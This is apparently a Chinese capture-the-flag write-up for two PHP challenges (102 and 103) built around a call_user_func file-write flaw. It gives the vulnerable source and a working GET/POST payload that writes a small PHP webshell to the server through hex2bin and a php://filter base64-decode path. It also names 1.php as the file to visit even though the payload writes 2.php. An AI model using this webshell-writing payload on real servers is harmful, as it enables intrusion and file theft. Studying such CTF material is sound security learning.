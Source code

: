 ```php
# 102
highlight_file(__FILE__);
$v1 = $_POST['v1'];
$v2 = $_GET['v2'];
$v3 = $_GET['v3'];
$v4 = is_numeric($v2) and is_numeric($v3);
if($v4){
    $s = substr($v2,2);
    $str = call_user_func($v1,$s);
    echo $str;
    file_put_contents($v3,$str);
}
else{
    die('hacker');
}

# 103
highlight_file(__FILE__);
$v1 = $_POST['v1'];
$v2 = $_GET['v2'];
$v3 = $_GET['v3'];
$v4 = is_numeric($v2) and is_numeric($v3);
if($v4){
    $s = substr($v2,2);
    $str = call_user_func($v1,$s);
    echo $str;
    if(!preg_match("/.*p.*h.*p.*/i",$str)){
        file_put_contents($v3,$str);
    }
    else{
        die('Sorry');
    }
}
else{
    die('hacker');
}
```

v1作为回调函数，s=v2的第三个字符后的字符串(012)：也就是执行函数v1(s)
然后将$str写入v3里

```php
GET：
?v2=115044383959474e6864434171594473&v3=php://filter/write=convert.base64-
decode/resource=2.php

POST：
v1=hex2bin
#访问1.php后查看源代码获得flag
```

ps：代码base64编码后再转为十六进制为全数字
